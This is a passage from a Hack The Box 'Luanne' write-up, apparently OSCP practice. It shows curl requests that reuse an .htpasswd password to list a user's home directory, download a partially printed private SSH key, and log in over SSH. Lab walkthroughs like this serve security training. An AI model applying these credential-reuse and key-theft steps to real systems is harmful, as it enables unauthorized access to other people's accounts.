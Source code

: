 ```html
$ curl -s http://127.0.0.1:3001/~r.michaels/
<html><head><title>401 Unauthorized</title></head>
<body><h1>401 Unauthorized</h1>
~r.michaels//: <pre>No authorization</pre>
<hr><address><a href="//127.0.0.1:3001/">127.0.0.1:3001</a></address>
</body></html>
```

Access is denied, let's try it with the password found in .htpasswd:

```html
$  curl -s http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```

That worked fine, the user may ownes an SSH key:

```bash
$ curl -s http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user:iamthebest
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
Icxo9PpLUYzecwdU3LqJlzjFga3kG7VdSEWm+C1fiI4LRwv/iRKyPPvFGTVWvxDXFTKWXh
0DpaB9XVjggYHMr0dbYcSF2V5GMfIyxHQ8vGAE+QeW9I0Z2nl54ar/I/j7c87SY59uRnHQ
kzRXevtPSUXxytfuHYr1Ie1YpGpdKqYrYjevaQR5CAFdXPobMSxpNxFnPyyTFhAbzQuchD
---snip---
```

And there is the SSH key. With it, I can get a shell on the system:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ nano id_rsa          

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ chmod 600 id_rsa

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ ssh r.michaels@luanne.htb -i id_rsa 
The authenticity of host 'luanne.htb (10.10.10.218)' can't be established.
ECDSA key fingerprint is SHA256:KB1gw0t+80YeM3PEDp7AjlTqJUN+gdyWKXoCrXn7AZo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'luanne.htb,10.10.10.218' (ECDSA) to the list of known hosts.
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

```